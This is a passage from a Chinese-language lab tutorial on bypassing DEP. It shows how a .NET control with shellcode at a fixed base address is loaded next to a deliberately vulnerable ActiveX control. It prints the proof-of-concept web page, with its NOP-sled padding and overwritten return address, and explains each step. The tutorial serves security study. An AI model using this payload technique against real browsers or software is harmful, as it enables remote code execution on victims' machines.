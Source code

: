 ![设置DLL基址](/images/2017-07-12/set_dll_address.jpg)

#### 2.3 POC及测试

编译好DLL之后，需要将DLL和溢出ActiveX控件的POC页面放到同一目录下，并通过如下调试代码调用

<pre><code>&lt;object classID="DEP_NETDLL.dll#DEP_NETDLL.Shellcode"&gt;&lt;/object&gt;
</code></pre>
    
Shellcode设置好后，就来设置POC页面，并将POC页面与.NET控件放到一台WEB服务器上，在实验机上访问这个POC页面，以触发ActiveX中的溢出漏洞，通过.NET控件绕过DEP。

POC页面如下

    <html>
    <body>
    <object classID="DEP_NETDLL.dll#DEP_NETDLL.Class1"></object>
    <object classid="clsid:053CC2BD-8E24-4E01-A950-9FF689F40487" id="test"></object>
    <script>
    var s = "\u9090";
    while(s.length < 54){
        s += "\u9090";
    }
    s += "\u24E2\u2424";
    test.test(s);
    </script>
    </body>
    </html>

<b>实验解释：</b>
1. 为了简单地反映绕过DEP的过程，本实验所攻击的ActiveX控件不启用GS
2. 通过web页面同时加载具有溢出漏洞的ActiveX控件和包含shellcode的.NET控件
3. ActiveX控件中的test函数存在典型的溢出
4. 编译.NET控件的时候，我们设置DLL的基址，所以我们将函数的返回地址覆盖为.NET控件中的shellcode起始地址，进而转入shellcode执行
5. 实验使用Unicode编码，在计算填充长度时要考虑Unicode与Ascii编码之间的长度差问题
